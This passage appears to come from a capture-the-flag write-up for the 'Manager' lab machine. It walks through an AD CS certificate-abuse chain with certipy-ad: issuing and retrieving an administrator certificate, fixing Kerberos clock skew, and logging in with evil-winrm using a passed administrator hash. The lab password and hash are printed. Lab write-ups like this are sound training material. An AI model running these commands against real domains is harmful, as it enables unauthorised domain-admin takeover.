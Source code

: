 We note that the certificate request ID is 13. Let us now use our obtained permissions to manually issue the failed certificate with the ca command and the -issue-request `<request ID>` parameter.

```sh
certipy-ad ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
10.10.11.236 -ca manager-dc01-ca -issue-request 13
Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Successfully issued certificate
```

> If at this stage you get a [-] Got access denied trying to issue certificate error, re-run the command where we added Raven as a manager. The box's cleanup scripts will likely have restored the initial permissions.

Finally, we retrieve the issued certificate with the req command and the `-retrieve <requestID>` parameter.

```sh
certipy-ad req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
10.10.11.236 -ca manager-dc01-ca -retrieve 13
Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Rerieving certificate with ID 13
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '13.key'
[*] Saved certificate and private key to 'administrator.pfx'
```

With the administrator's PFX file in our possession, we can now utilize it for authentication. Upon running the auth command, we encounter the error "`KRB_AP_ERR_SKEW (Clock skew too great)`".

```sh
certipy-ad auth -pfx administrator.pfx
Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError:
KRB_AP_ERR_SKEW(Clock skew too great)
```

The "`KRB_AP_ERR_SKEW`" error occurs when there is a significant time difference between the client and the KDC servers, impacting the Kerberos authentication process. 

Resolving this issue involves synchronizing our machine's clock with the server's.
To do so, we need to disable the "Automatic Date & Time" setting in our machine's settings and run the following command to synchronize our clock:

```sh
sudo ntpdate -s manager.htb
```

Running the command again successfully dumps the admin hash.

```sh
evil-winrm -i manager.htb -u administrator -H ae5064c2f62317332c88629e025924ef
```



